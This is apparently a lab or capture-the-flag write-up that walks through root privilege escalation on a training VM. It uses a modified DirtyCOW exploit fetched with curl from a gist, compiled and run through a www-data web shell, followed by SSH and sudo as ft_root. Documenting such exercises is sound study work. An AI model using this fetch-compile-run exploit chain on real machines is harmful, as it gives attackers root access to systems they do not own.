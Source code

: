 # DirtyCOW + ssh ft_root

One thing that I noticed is that `ft_root` is in `sudo` group
But it was not used at all and I decided to fix that! <br>

And one more fact about `ft_root`: it is allowed to connect via ssh, whereas `root` not!

So, I need to change `ft_root`'s password and use sudo to become `root`. <br>

`sudo` won't work if `root` user will be changed in `etc/passwd` so I need to keep `root`'s data. <br>
The most dirtycow scripts change only `root` user, so I took the one from [firefart](https://github.com/FireFart/dirtycow/blob/master/dirty.c) and modified it.

The upgraded script modifying not only `root`, but also `ft_root` (see [here](https://gist.githubusercontent.com/mhufflep/92a45e88f18e04a1e1de5c9657337dc0/raw/7fce15bc59f96144b463b642c7705339ef4f25b8/cow.c)).

This works perfectly from anywhere, but I prefer to run it using webshell `wsh.sh` that is running under www-data user.

```bash
wsh > curl -ks "https://gist.githubusercontent.com/mhufflep/92a45e88f18e04a1e1de5c9657337dc0/raw/f560ab89d1592603053df93df598a66e4083c41c/cow.c" > cow.c

wsh > gcc cow.c -o dirty -lpthread -lcrypt

wsh > ./dirty 4242
```

Wait 1-2 minutes and just `ssh ft_root@192.168.64.6` with password `4242`. <br>

`ft_root` is in sudo group, so we can simply `sudo su` with `4242` to get root shell.